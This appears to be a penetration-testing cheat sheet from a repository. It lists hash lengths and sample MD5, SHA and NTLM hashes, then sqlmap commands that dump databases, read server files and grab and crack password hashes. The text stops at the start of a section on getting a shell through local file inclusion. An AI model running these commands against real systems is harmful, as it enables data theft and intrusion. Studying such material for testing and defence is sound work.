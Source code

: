 

# Cryptography
==============
#Hash Lengths
HASH			SIZE
MD5 Hash Length		16 Bytes
SHA-1 Hash Length	20 Bytes
SHA-256 Hash Length	32 Bytes
SHA-512 Hash Length	64 Bytes

#Hash Examples
HASH				EXAMPLE
MD5 Hash Example		8743b52063cd84097a65d1633f5c74f5
MD5 $PASS:$SALT Example		01dfae6e5d4d90d9892622325959afbe:7050461
MD5 $SALT:$PASS			f0fda58630310a6dd91a7d8f0a4ceda2:4225637426
SHA1 Hash Example		b89eaac7e61417341b710b727768294d0e6a277b
SHA1 $PASS:$SALT		2fc5a684737ce1bf7b3b239df432416e0dd07357:2014
SHA1 $SALT:$PASS		cac35ec206d868b7d7cb0b55f31d9425b075082b:5363620024
SHA-256				127e6fbfe24a750e72930c220a8e138275656b8e5d8f48a98c3c92df2caba935
SHA-256 $PASS:$SALT		c73d08de890479518ed60cf670d17faa26a4a71f995c1dcc978165399401a6c4
SHA-256 $SALT:$PASS		eb368a2dfd38b405f014118c7d9747fcc97f4f0ee75c05963cd9da6ee65ef498:560407001617
SHA-512				82a9dda829eb7f8ffe9fbe49e45d47d2dad9664fbb7adf72492e3c81ebd3e29134d9bc12212bf83c6840f10e8246b9db54a4859b7ccd0123d86e5872c1e5082f
SHA-512 $PASS:$SALT		e5c3ede3e49fb86592fb03f471c35ba13e8d89b8ab65142c9a8fdafb635fa2223c24e5558fd9313e8995019dcbec1fb584146b7bb12685c7765fc8c0d51379fd
SHA-512 $SALT:$PASS		976b451818634a1e2acba682da3fd6efa72adf8a7a08d7939550c244b237c72c7d42367544e826c0c83fe5c02f97c0373b6b1386cc794bf0d21d2df01bb9c08a
NTLM Hash Example		b4b9b02e6f09a9bd760f388b67351e2b



# SQLMap Examples
==================
# A mini SQLMap cheat sheet:
COMMAND																		DESCRIPTION
sqlmap -u http://meh.com --forms --batch --crawl=10 --cookie=jsessionid=54321 --level=5 --risk=3						Automated sqlmap scan
sqlmap -u TARGET -p PARAM --data=POSTDATA --cookie=COOKIE --level=3 --current-user --current-db --passwords --file-read="/var/www/blah.php" 	Targeted sqlmap scan
sqlmap -u "http://meh.com/meh.php?id=1" --dbms=mysql --tech=U --random-agent --dump 								Scan url for union + error based injection with mysql backend and use a random user agent + database dump
sqlmap -o -u "http://meh.com/form/" --forms													sqlmap check form for injection
sqlmap -o -u "http://meh/vuln-form" --forms -D database-name -T users --dump									sqlmap dump and crack hashes for table users on database-name.



# How to get a Shell from LFI
=============================
# Path Traversal aka Directory Traversal
# PHP Wrapper expect:// LFI
# Allows execution of system commands via the php expect wrapper, unfortunately this is not enabled by default.
# An example of PHP expect: